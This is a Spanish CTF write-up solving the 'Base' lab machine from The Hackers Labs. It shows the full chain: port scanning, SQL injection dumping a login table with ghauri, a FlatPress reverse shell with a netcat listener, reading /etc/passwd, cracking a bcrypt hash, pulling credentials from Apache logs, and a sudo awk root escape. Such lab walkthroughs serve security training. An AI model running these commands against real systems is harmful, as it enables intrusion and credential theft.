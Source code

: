```yaml
---
layout: post
title: Base
date: 2024.09.13
categories: [thl, ctf, linux, avanzado]

![image](/assets/images/base/0.jpg)

En esta ocasión voy a resolver una máquina **Linux** creada por **Enaitz** de dificultad **Principiante** para la plataforma de [The Hackers Labs](https://thehackerslabs.com/).

### 1: Escaneo de la red local

```bash
$ sudo arp-scan -I enp0s8 --localnet
```

Este comando utiliza `arp-scan`, que es una herramienta para descubrir hosts en una red local utilizando el protocolo ARP. La opción `-I enp0s8` especifica la interfaz de red, que en este caso es `enp0s8`. El parámetro `--localnet` le dice a la herramienta que escanee toda la red local.

Salida:
```bash
10.0.2.10       08:00:27:11:15:84       PCS Systemtechnik GmbH
```

Aquí vemos que se encontró un dispositivo en la red local con la dirección IP `10.0.2.10` y la dirección MAC correspondiente.

---
```


### 2: Escaneo de puertos

```bash
$ rustscan -a 10.0.2.10 -b 10
```

Usamos `rustscan`, que es una herramienta rápida de escaneo de puertos, para ver qué puertos están abiertos en la máquina con IP `10.0.2.10`. La opción `-a` especifica la dirección IP, y `-b` es para el batch size (número de puertos que se escanean simultáneamente).

Salida:
```bash
Open 10.0.2.10:22
Open 10.0.2.10:80
Open 10.0.2.10:8080
```

Esto nos dice que los puertos 22 (SSH), 80 (HTTP) y 8080 (HTTP alternativo) están abiertos.

---

### 3: Escaneo detallado con Nmap

```bash
$ sudo nmap -sCV -p22,80,8080 10.0.2.10
```

Con `nmap` hacemos un escaneo más profundo en los puertos descubiertos, usando las opciones `-sCV` para obtener versiones de los servicios y ejecutar scripts básicos. La opción `-p` especifica los puertos a escanear.

Salida:
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.62 ((Debian))
8080/tcp open  http    Apache httpd 2.4.62 ((Debian))
```

Vemos que el puerto 22 está corriendo `OpenSSH`, y los puertos 80 y 8080 están usando el servidor web Apache. Además, el puerto 80 está corriendo una aplicación llamada `FlatPress`.

---

### 4: Explotación con SQLi
Echamos un vistazo a las webs que hay en el puerto 80 y 8080 y vemos que hay un posible SQLi al realizar una busqueda.

```bash
$ ghauri -u http://10.0.2.10:8080/search.php?query=a --dbs
```

Se utilizó `ghauri`, una herramienta para explotar inyecciones SQL (SQLi). La opción `-u` indica la URL objetivo, y `--dbs` pide que se enumeren las bases de datos disponibles.

Salida:
```bash
available databases [6]:
[*] performance_schema
[*] Nombres
[*] sys
[*] mysql
[*] information_schema
[*] FlatPress
```

Esto confirma que se puede explotar la vulnerabilidad SQLi, y muestra las bases de datos disponibles. Nos interesa la base de datos `FlatPress`.

---

### 5: Dump de la tabla de login

```bash
$ ghauri -u http://10.0.2.10:8080/search.php?query=a -D FlatPress -T login --dump
```

Aquí estamos dumpeando (extrayendo) el contenido de la tabla `login` en la base de datos `FlatPress`. La opción `-D` especifica la base de datos, `-T` la tabla, y `--dump` para volcar el contenido.

Salida:
```bash
+----+--------+-----------------------+
| id | user   | password              |
+----+--------+-----------------------+
| 1  | r0dgar | SNIETbkGBCnhFqeUJuqBO |
+----+--------+-----------------------+
```

Logramos extraer las credenciales del usuario `r0dgar`.
Nos logueamos en el panel de admin con las credenciales y aprovechando de una vulnerabilidad que hay en la versión de FlatPress, subimos una shell reversa. Podemos seguir los pasos que explican aquí [https://github.com/flatpressblog/flatpress/issues/152](https://github.com/flatpressblog/flatpress/issues/152)

---

### 6: Iniciar un listener con Netcat

```bash
$ nc -nlvp 8888
```

Con este comando usamos `netcat` para iniciar un listener en el puerto 8888. La opción `-n` deshabilita DNS, `-l` es para escuchar conexiones entrantes, `-v` para modo detallado, y `-p` especifica el puerto.

Salida:
```bash
Ncat: Connection from 10.0.2.10:52336.
```

Se establece una conexión desde la IP `10.0.2.10`. Hacemos el tratamiento de la tty y ya estamos dentro del servidor.

---

### 7: Ver usuarios del sistema

```bash
www-data@TheHackersLabs-Base:/$ cat /etc/passwd | grep bash
```

Este comando muestra todos los usuarios del sistema que tienen acceso a un shell bash. 

Salida:
```bash
root:x:0:0:root:/root:/bin/bash
pedro:x:1001:1001::/home/pedro:/bin/bash
flate:x:1002:1002::/home/flate:/bin/bash
```

Tenemos dos usuarios: `pedro` y `flate`.

---

### 8: Buscar archivos de pedro

```bash
www-data@TheHackersLabs-Base:/$ find / -user pedro -type f 2>/dev/null
```

Buscamos archivos que pertenezcan al usuario `pedro`. La opción `2>/dev/null` es para ocultar mensajes de error.

Salida:
```bash
/opt/hash.txt
```

Encontramos un archivo interesante: `/opt/hash.txt`.

---

### 9: Ver contenido del archivo hash.txt

```bash
www-data@TheHackersLabs-Base:/$ cat /opt/hash.txt
```

Mostramos el contenido del archivo.

Salida:
```bash
$2b$12$Qq75yQ3G.ydG2nxr4LzAPeJ6GE8po1NtjOAGZ2l1aIGa5//I5J/Xq
```

Parece ser un hash bcrypt.

---

### 10: Cracking del hash

```bash
$ hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt
```

Usamos `hashcat` para crackear el hash usando la wordlist `rockyou.txt`.

Salida:
```bash
$2b$12$Qq75yQ3G.ydG2nxr4LzAPeJ6GE8po1NtjOAGZ2l1aIGa5//I5J/Xq:secret
```

La contraseña correspondiente al hash es `secret`.

---

### 11: Buscar en logs de Apache

```bash
pedro@TheHackersLabs-Base:/var/log/apache2$ grep -rnw flate .
```

Buscamos la palabra `flate` en los logs de Apache.

Salida:
```bash
./access.log.1:21:203.0.113.56 - flate [12/Sep/2024:12:03:55 +0000] "POST /login HTTP/1.1" 401 4812 "username=flate&password=HPAbcmOgSjidaoWkXUQjw"
```

Encontramos las credenciales de `flate`: `HPAbcmOgSjidaoWkXUQjw`.

---

### Paso 12: Cambiar a usuario flate

```bash
pedro@TheHackersLabs-Base:/var/log/apache2$ su flate
```

Usamos el comando `su` para cambiar al usuario `flate` usando la contraseña encontrada.

---

### 13: Escalada de privilegios

```bash
flate@TheHackersLabs-Base:/var/log/apache2$ sudo -l
```

Vemos qué comandos puede ejecutar `flate` como root.

Salida:
```bash
(root) NOPASSWD: /usr/bin/awk
```

`flate` puede ejecutar `awk` como root sin contraseña.

---

### Paso 14: Obtener shell root

```bash
flate@TheHackersLabs-Base:/var/log/apache2$ sudo awk 'BEGIN {system("/bin/bash")}'
```

Usamos `awk` para ejecutar un shell como root, aprovechando el permiso `NOPASSWD`.

Salida:
```bash
root@TheHackersLabs-Base:/var/log/apache2#
```

¡Ya somos root!

---
